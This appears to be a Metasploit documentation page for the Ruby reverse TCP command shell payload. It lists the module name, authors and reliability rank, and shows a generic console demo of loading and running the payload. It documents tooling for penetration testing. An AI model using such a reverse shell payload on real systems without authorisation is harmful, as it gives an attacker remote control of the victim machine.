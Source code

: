 ## Ruby Command Shell, Reverse TCP

Connect back and create a command shell via Ruby


## Module Name
payload/ruby/shell_reverse_tcp

## Authors
* kris katterjohn
* hdm





## Platforms
ruby

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/ruby/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    
